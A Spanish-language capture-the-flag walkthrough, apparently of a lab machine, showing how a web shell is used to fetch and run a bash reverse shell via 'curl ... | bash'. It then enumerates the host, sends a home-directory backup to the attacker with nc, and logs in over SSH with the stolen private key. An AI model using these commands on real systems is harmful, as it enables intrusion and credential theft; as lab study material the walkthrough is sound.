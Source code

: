 ## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Crear una reverse shell desde la s4vishell.php con un index.html {-}

1. Creamos un index.html

    ```bash
    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.8/443 0>&1
    ```

1. Compartimos un servicio http por el puerto 80

    ```bash
    python3 -m http.server 80
    ```

1. Desde la s4vishell

    ```php
    http://10.10.10.230/6a5sd4f6a5sd1f6as5dfa6sd51fa.php?cmd=curl 10.10.14.8|bash
    ```

Ya esta

```bash
whoami
#Output

www-data
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Investigamos la maquina {-}

```bash
ls -l
cd /home
ls -l
cd noah/
cat user.txt
```

Permission denied. Nos tenemos que pasar al usuario Noah

### User Pivoting al usuario noah {-}

#### Analizamos el systema {-}

```bash
id
sudo -l
cd /
find \-perm -4000 2>/dev/null
cat /etc/crontab
ls -l /var/spool/cron
```

No vemos nada. Tendremos que pasar por el sistema web

```bash
cd /var
find \-type f 2>/dev/null
find \-type f 2>/dev/null | grep "config"
find \-type f 2>/dev/null | grep "config" | xargs grep "password" 2>/dev/null
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null | grep -v "debconf"
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null | grep -v -E "debconf|keyboard"
```

Tampoco vemos algo aqui.

```bash
cd /var
find \-type f 2>/dev/null | grep -v -E "lib|cache"
```

Aqui vemos algo que podria ser interesante.

```bash
cd /var/backups
ls -l
```

Vemos un `home.tar.gz` y tenemos derecho de visualizar

#### Nos enviamos el home.tar.gz {-}

1. En la maquina de atacante

    ```bash
    nc -nlvp 443 > home.tar.gz
    ```

1. En la maquina victima

    ```bash
    nc 10.10.14.8 443 < home.tar.gz
    ```

1. Hacemos un md5sum para ver la integridad de la data
1. Analizamos el fichero

    ```bash
    7z l home.tar.gz
    ```

Ya podemos ver que es un comprimido del directorio home del usuario Noah con authorized_key y una id_rsa del proprio usuario

### Conexion por ssh {-}

```bash
chmod 600 id_rsa
ssh -i id_rsa noah@10.10.10.230
```

Ya estamos a dentro y podemos ver la flag

